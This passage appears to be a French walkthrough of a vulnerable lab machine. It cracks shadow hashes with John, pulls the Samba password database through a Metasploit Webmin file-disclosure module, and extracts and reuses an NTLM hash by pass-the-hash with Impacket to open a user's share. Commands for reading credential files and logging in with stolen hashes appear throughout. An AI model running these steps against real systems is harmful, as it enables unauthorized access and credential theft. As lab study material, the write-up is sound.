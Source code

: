 ```plain
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

On passe les hashs à *John* qui trouve en quelques minutes avec un bon dictionnaire le mot de passe *h4ckm3* pour *vmware* (1st monkey).  

L'autre méthode consiste à obtenir le hash dans une forme plus attaquable, c'est à dire sous sa forme NTLM sans salt.  

Pour cela on doit récupérer la base des utilisateurs Samba :  

```plain
msfcli auxiliary/admin/webmin/file_disclosure RHOST=192.168.1.27 RPATH=/var/lib/samba/passdb.tdb E > /tmp/tdb
```

On la passe ensuite à un éditeur hexadécimal pour retirer l'output de *Metasploit* (ou on trouve un exploit similaire sur *exploit-db* à personnaliser pour retirer l'output).  

On doit recopier le fichier tdb sur son système pour que les outils Samba le retrouvent (je n'ai pas vu d'options pour spécifier un path particulier).  

```plain
# cp /tmp/tdb /etc/samba/passdb.tdb
# pdbedit -L -w
vmware:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:FD64812D22B9B94638C2A7FF8C49DDC6:[U          ]:LCT-485138D9:
```

Il est alors possible de soumettre le hash NTLM sur une base de données en ligne comme *crackstation.net* ou à *ophcrack*. Là c'est de l'instantané (2nd monkey).  

Encore mieux, on peut réutiliser le hash via la technique *pass-the-hash*, sauf que les outils disponibles sont majoritairement destinés à Windows.  

*Impacket* a un script qui marche (plus ou moins) avec Samba (3rd monkey) :  

```plain
python-impacket$ python examples/smbclient.py
# open 192.168.1.27 445
# login_hash vmware 00000000000000000000000000000000 FD64812D22B9B94638C2A7FF8C49DDC6
# shares
home
print$
IPC$
# use home
# ls
.
..
.bashrc
.bash_logout
.profile
.bash_history
.sudo_as_admin_successful
.ssh
```
